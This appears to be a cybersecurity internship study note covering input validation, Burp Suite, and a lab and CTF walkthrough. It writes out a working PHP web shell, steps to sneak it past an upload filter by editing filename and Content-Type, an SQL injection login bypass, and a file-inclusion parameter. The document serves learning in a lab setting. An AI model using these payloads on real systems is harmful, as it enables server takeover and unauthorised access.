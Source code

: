 # 🧠 Day 2: Client-Side vs Server-Side Validation, Burp Suite, and CTF Walkthrough

## 📚 Topics Covered

### ✅ Client-Side vs Server-Side Validation

| **Aspect**           | **Client-Side Validation**                 | **Server-Side Validation**                     |
| -------------------- | ------------------------------------------ | ---------------------------------------------- |
| Performed On         | User’s browser                             | Web server                                     |
| Speed                | Faster (no server round trip)              | Slower (requires server communication)         |
| Security             | Less secure (can be bypassed by attackers) | More secure (cannot be easily bypassed)        |
| Example Technologies | JavaScript, HTML5 input types              | PHP, Python, Node.js, etc.                     |
| Purpose              | Improve UX, reduce server load             | Ensure data integrity and application security |

🔒 **Conclusion:** Always implement both types of validation. Never rely solely on client-side checks.

---

## 🛠️ Burp Suite Overview

**Burp Suite** is a powerful web vulnerability scanner and proxy tool used by ethical hackers and pentesters to:

- Intercept HTTP/HTTPS traffic between browser and server.
- Modify requests before they reach the server.
- Analyze headers, cookies, and form data.
- Perform automated scans and manual testing.

> 💡 **Definition:** Burp Suite acts as a **man-in-the-middle** proxy that captures and modifies HTTP requests/responses between your browser (frontend) and the server (backend).

### ⚔️ 3 Lines of Defense in Web Applications

1. **Source Code Formatting** – Modifying elements directly via browser dev tools.
2. **Header Analysis** – Viewing and editing request headers.
3. **Burp Suite Interception** – Full control of data flow using proxy.

If none of the above allow you to bypass validation, it is likely **server-side validated**.

> 🧠 **Note:** `.htaccess` or `.hea` files are often used to enforce server-side rules.

---

## 🔬 Lab: Upload PHP Web Shell Using Burp Suitre

### 🎯 Objective:

Exploit a vulnerable file upload feature to gain shell access to the server.

### 🧪 Steps Followed:

1. **Prepare a PHP File** disguised as a `.png`, like `shell.php.png`, containing: ```<?php system($_GET['cmd']); ?>```
2. Inspect the page, **modify the file input** accept attribute if needed.
3. Switch Burp Intercept **ON**.
4. **Upload the file** → Burp intercepts the request.
5. In Burp, change:  
        ```filename="shell.php.png"```  
       ```Content-Type: image/png```   
   to:   
        ```filename="shell.php"```  
       ``` Content-Type: application/x-php```  
6. **Forward the request** → Server accepts it.
7. **Access the file** via URL (e.g., ```/uploads/shell.php```) and use ```?cmd=ls```.
![Burp suite malware attack](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/burp2.jpg](http://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/burpsuit.jpg)
![Burp suite malware attack](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/burp2.jpg)
### 🔍 Wappalyzer Extension
Wappalyzer is a browser extension used to identify backend and frontend tech stack such as:

- Languages (PHP, Python, Ruby)
-  Web servers (Apache, Nginx)
- Frameworks (Laravel, Django)
- CMS (WordPress, Joomla)

> 💡 **Note**:You can also analyze backend headers via Burp Repeater or server error messages.
---

### 🕹️ CTF Walkthrough
The CTF involved exploiting 3 vulnerabilities:

1️⃣ **SQL Injection (Authentication Bypass)**

    Used SQLi payload on login page:
    Username: admin'--
    Password: (blank)
    This bypasses login logic and logs you in as admin.

![SQL_ctf](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf4.jpg)

2️⃣ **Security Misconfiguration**

    Inspecting HTML revealed hardcoded credentials:
    <!-- Admin Username: administrator -->
    <!-- Admin Password: AdminPass2024 -->
    <!-- Admin URL: /admin -->  
    Used them to login into admin panel.

![SQL_ctf](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf3.jpg)
3️⃣ **LFI Attack (Local File Inclusion)**

    Input field in admin panel was vulnerable:
    ?q=flag.txt
    Retrieved flag from flag.txt

![SQL_ctf](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf1.jpg)
🏁 **Final Flag:**
```CTF{sql_injection_and_lfi_chain_complete}```

![SQL_ctf]([https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf1.jpg](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf2.jpg))


		




